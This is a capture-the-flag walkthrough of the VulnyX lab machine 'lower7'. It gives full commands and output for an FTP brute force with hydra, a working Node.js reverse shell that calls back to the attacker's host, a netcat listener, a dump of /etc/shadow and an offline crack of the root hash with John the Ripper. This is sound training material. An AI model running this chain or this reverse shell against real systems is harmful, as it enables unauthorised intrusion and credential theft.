

# lower7

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| lower7 | d4t4s3c | low | vulnyx |

**Summary:** lower7 is a beginner friendly machine that combines a weak FTP credential with a writable anonymous dropzone and a Node.js web service. A full port scan reveals only two open services: an FTP server running vsftpd and a Node.js Express application on port 3000. Anonymous access is denied, but the FTP login banner leaks the username `a.clark`, which turns out to be the intended target. A hydra brute force against the FTP service recovers the weak password `dragon`, granting a shell over FTP to a fully writable directory. Because the Node.js web application appears to execute uploaded JavaScript files, the attacker uploads a Node.js reverse shell and triggers it through the web interface, obtaining an interactive shell as the user `a.clark`. After reading the user flag, enumeration reveals that `a.clark` belongs to the `shadow` group, which permits reading `/etc/shadow`. The root password hash is extracted and cracked offline with John the Ripper using the rockyou wordlist, yielding the password `bassman`. A simple `su - root` completes the privilege escalation and provides the root flag.

---

## Reconnaissance

1. The first step is host discovery against the local subnet. The target is identified as `192.168.100.215`, along with the gateway and the attacker's own host.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sn 192.168.100.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 14:22 +0700
Nmap scan report for 192.168.100.1 (192.168.100.1)
Host is up (0.0016s latency).
Nmap scan report for 192.168.100.2 (192.168.100.2)
Host is up (0.0026s latency).
Nmap scan report for 192.168.100.215 (192.168.100.215)
Host is up (0.0020s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.97 seconds
```

2. A full port and service scan against `192.168.100.215` reveals two open ports: FTP on port 21 and an HTTP service running Node.js (Express middleware) on port 3000.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sC -sV -p- -T4 192.168.100.215
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 14:24 +0700
Nmap scan report for 192.168.100.215 (192.168.100.215)
Host is up (0.0022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

---

## Initial Access

1. Anonymous login to the FTP service is attempted first. The connection banner leaks an interesting detail: `"Hello a.clark, Welcome to your FTP server."` This reveals a valid username. However, anonymous access is rejected.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ ftp 192.168.100.215
Connected to 192.168.100.215.
220 "Hello a.clark, Welcome to your FTP server."
Name (192.168.100.215:ouba): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> exit
221 Goodbye.
```

2. Using the leaked username `a.clark`, hydra is launched against the FTP service with the rockyou wordlist. After roughly 40 seconds the weak password `dragon` is recovered.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ hydra -l a.clark -P /usr/share/wordlists/rockyou.txt ftp://192.168.100.215 -t 8 -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-08 14:31:37
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://192.168.100.215:21/
[21][ftp] host: 192.168.100.215   login: a.clark   password: dragon
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-08 14:32:18
```

3. Logging in as `a.clark` with the recovered credentials succeeds. The FTP directory is empty, but the permissions are `drwxrwxrwx`, meaning any user can write files here. This is a classic anonymous dropzone.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ ftp 192.168.100.215
Connected to 192.168.100.215.
220 "Hello a.clark, Welcome to your FTP server."
Name (192.168.100.215:ouba): a.clark
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||7004|)
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Oct 13  2025 .
drwxrwxrwx    2 1000     1000         4096 Oct 13  2025 ..
```

4. Write access is verified by uploading a small test file, which lands successfully on the server.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ echo 'test' > test.txt
```

```bash
226 Directory send OK.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||36590|)
150 Ok to send data.
100% |********************************************|     5       45.63 KiB/s    00:00 ETA
226 Transfer complete.
5 bytes sent in 00:00 (1.44 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||34459|)
150 Here comes the directory listing.
drwxrwxrwx    2 1000     1000         4096 Aug 08 09:35 .
drwxrwxrwx    2 1000     1000         4096 Aug 08 09:35 ..
-rw-------    1 1000     1000            5 Aug 08 09:35 test.txt
226 Directory send OK.
```

5. Given the Node.js web application on port 3000, a Node.js reverse shell is crafted. It spawns `/bin/sh` and pipes it over a TCP socket back to the attacker's host on port 4444.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ vim revshell.js

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ cat revshell.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "192.168.100.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents unwanted output
})();
```

6. The reverse shell is uploaded to the writable FTP directory.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ ftp 192.168.100.215             
Connected to 192.168.100.215.
220 "Hello a.clark, Welcome to your FTP server."
Name (192.168.100.215:ouba): a.clark
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put revshell.js
local: revshell.js remote: revshell.js
229 Entering Extended Passive Mode (|||13939|)
150 Ok to send data.
100% |********************************************|   362      257.47 KiB/s    00:00 ETA
226 Transfer complete.
362 bytes sent in 00:00 (39.92 KiB/s)
```

7. A netcat listener is started on port 4444 to receive the incoming connection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

8. The uploaded `revshell.js` is triggered through the Node.js web application on port 3000, as shown below.



9. The connection lands immediately and an interactive shell as `a.clark` is obtained. A Python PTY upgrade is performed for full terminal interactivity.

```bash
connect to [172.20.131.21] from (UNKNOWN) [172.20.128.1] 56337
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
a.clark@lower7:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ stty raw -echo; fg                   
[1]  + continued  nc -lvnp 4444

a.clark@lower7:~$ export TERM=xterm && export SHELL=/bin/bash
a.clark@lower7:~$ stty rows 80 cols 150
```

10. The user flag is located in the home directory and is readable by `a.clark`.

```bash
a.clark@lower7:~$ ls -la
total 32
drwx------ 3 a.clark a.clark 4096 oct 13  2025 .
drwxr-xr-x 3 root    root    4096 oct 13  2025 ..
lrwxrwxrwx 1 root    root       9 nov 15  2023 .bash_history -> /dev/null
-rw-r--r-- 1 a.clark a.clark  220 nov 15  2023 .bash_logout
-rw-r--r-- 1 a.clark a.clark 3526 nov 15  2023 .bashrc
drwxr-xr-x 3 a.clark a.clark 4096 oct 13  2025 .local
-rw-r--r-- 1 a.clark a.clark  807 nov 15  2023 .profile
-rw-r--r-- 1 a.clark a.clark   66 oct 13  2025 .selected_editor
-r-------- 1 a.clark a.clark   33 oct 13  2025 user.txt
a.clark@lower7:~$ cat user.txt 
[REDACTED]
```

---

## Privilege Escalation

1. Checking the user's group memberships reveals a critical misconfiguration: `a.clark` is a member of the `shadow` group (`gid=42`). This group normally has read access to `/etc/shadow`, so the entire shadow file is retrieved.

```bash
a.clark@lower7:/opt$ id
uid=1000(a.clark) gid=1000(a.clark) grupos=1000(a.clark),42(shadow)
a.clark@lower7:/opt$ cat /etc/shadow
root:$y$j9T$9VFLJjKZix0Ugj9YsoOCS.$z0FVk.1CCNx/YRzEmwjcz6z4oYqa7YD6QyXd52jxyLD:20374:0:99999:7:::
daemon:*:19676:0:99999:7:::
bin:*:19676:0:99999:7:::
sys:*:19676:0:99999:7:::
sync:*:19676:0:99999:7:::
games:*:19676:0:99999:7:::
man:*:19676:0:99999:7:::
lp:*:19676:0:99999:7:::
mail:*:19676:0:99999:7:::
news:*:19676:0:99999:7:::
uucp:*:19676:0:99999:7:::
proxy:*:19676:0:99999:7:::
www-data:*:19676:0:99999:7:::
backup:*:19676:0:99999:7:::
list:*:19676:0:99999:7:::
irc:*:19676:0:99999:7:::
_apt:*:19676:0:99999:7:::
nobody:*:19676:0:99999:7:::
systemd-network:!*:19676::::::
messagebus:!:19676::::::
sshd:!:19676::::::
a.clark:$y$j9T$bdXHrEdVSpm8nJ883AVV//$xAqdqEdokPrYPBIgIv68qKaU08mhJoWKrnI9WdyUpZB:20374:0:99999:7:::
ftp:!:20374::::::
```

2. The root password hash is extracted into a local file and cracked with John the Ripper using the rockyou wordlist. Within a few minutes the password is recovered: `bassman`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ echo 'root:$y$j9T$9VFLJjKZix0Ugj9YsoOCS.$z0FVk.1CCNx/YRzEmwjcz6z4oYqa7YD6QyXd52jxyLD' > hash.txt 

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ john --format=crypt -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bassman          (root)     
1g 0:00:04:43 DONE (2026-08-08 17:36) 0.003525g/s 59.23p/s 59.23c/s 59.23C/s ice-cream..yenifer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

3. Switching to the root account with the cracked password confirms full administrative access. The root flag is read to complete the machine.

```bash
a.clark@lower7:/opt$ su - root
Contraseña: 
root@lower7:~# id;whoami;hostname;pwd
uid=0(root) gid=0(root) grupos=0(root)
root
lower7
/root
root@lower7:~# ls -la
total 32
drwx------  5 root root 4096 oct 13  2025 .
drwxr-xr-x 18 root root 4096 oct 13  2025 ..
lrwxrwxrwx  1 root root    9 nov 15  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 nov 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 nov 15  2023 .local
drwxr-xr-x  4 root root 4096 oct 13  2025 .npm
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-r--------  1 root root   33 oct 13  2025 root.txt
drwx------  2 root root 4096 oct 13  2025 .ssh
root@lower7:~# cat root.txt 
[REDACTED]
```

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap host discovery identifies `192.168.100.215` as the target. A full service scan reveals only two exposed services: vsftpd on port 21 and a Node.js Express application on port 3000.
2. **Vulnerability Discovery**: Anonymous FTP access is denied, but the FTP login banner leaks the username `a.clark`. The FTP home directory is fully writable (`drwxrwxrwx`), and the Node.js web application is found to execute uploaded JavaScript files.
3. **Exploitation**: Hydra brute forces the FTP account `a.clark` and recovers the weak password `dragon`. A Node.js reverse shell is uploaded through the writable FTP dropzone and triggered via the web application, granting an interactive shell as `a.clark`.
4. **Internal Enumeration**: The user flag is collected from the home directory. The `id` command reveals that `a.clark` belongs to the `shadow` group, allowing direct read access to `/etc/shadow`. The root password hash is extracted.
5. **Privilege Escalation**: The root hash is cracked offline with John the Ripper using the rockyou wordlist, yielding the password `bassman`. Switching to the root account with `su - root` provides full administrative access and the root flag.
